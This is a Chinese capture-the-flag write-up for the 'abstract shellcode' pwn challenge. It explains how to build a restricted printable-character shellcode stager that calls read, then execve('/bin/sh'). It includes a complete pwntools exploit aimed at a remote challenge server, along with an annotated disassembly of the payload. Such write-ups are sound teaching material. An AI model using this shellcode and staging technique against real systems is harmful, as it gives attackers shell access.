 # abstract shellcode

确实挺抽象

## 文件分析

NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

开始时读入一个ye/no，就可以开始输入shellcode了，一开始以为有16字节的限制，
还把字符范围限制在了`'O'~'_'`之间，但是实际动调时发现还有1个任意字符的机会

要想执行system，这么一些字节肯定不够，那么可以参照newstarctf里的shellcode_revenge，
先执行read，再执行，那么这最后的一个字节可以做什么呢，发现`'\xc3'`可以实现跳转，
这时候才意识过来，之前给的两个字符，是用来放syscall(`'\x0f\x05'`)的，
那么只要构造一个read系统调用，再读入execve的shellcode并执行就可以拿到shell

下文有shellcode的详细解释

## 踩过的坑

read的第三个参数`count`有最大值`SSIZE_MAX(0x7ffff000 on Linux)`，
超过这个值是依赖于实现的，当我随便找了一个超大数字时，我用的Arch Linux可以成功read，
Ubuntu就不行，害得我一开始连远端就寄，还得开虚拟机试试（毕竟是内核存在差别）

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'

def payload(lo):
    global sh
    if lo:
        sh = process('abstractshellcode')
    else:
        sh = remote('43.249.195.138', 21851)
    if lo & 0b10:
        gdb.attach(sh, gdbscript='b *$rebase(0x14aa)')

    # payload 1, place syscall on stack
    sh.send(b'\x0f\x05')

    # payload 2, control registers and return to syscall
    sh.send(b'P^WXOSZYY[YQYQYS\xc3')

    code = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    '''
    shc = asm(code)

    # payload 3, execute /bin/sh
    sh.sendline(b'0'*(0x52 - 0x20) + shc)

    sh.interactive()
```

以下是对第二条payload的解释

```as
push rax ; P
pop  rsi ; ^ 读取到当前字符串开始处
push rdi ; W
pop  rax ; X 复制0给rax
push r11 ; OS (O: REX:WRXB -> 修饰rbx为r11)
pop  rdx ; Z 复制0x246给count参数
pop  rcx ; Y
pop  rcx ; Y
pop  rbx ; [ 先把syscall字符串所在地址读到rbx中
pop  rcx ; Y padding * 5
push rcx ; Q
pop  rcx ; Y
push rcx ; Q
pop  rcx ; Y
push rbx ; S 还原rbx的地址到rsp上
ret      ; \xc3 ; aka pop rip: 程序跳转到rbx的地址上
```

## 参考

[printable shellcode](https://web.archive.org/web/20110716082850/http://skypher.com/wiki/index.php?title=X64_alphanumeric_opcodes)

Done.
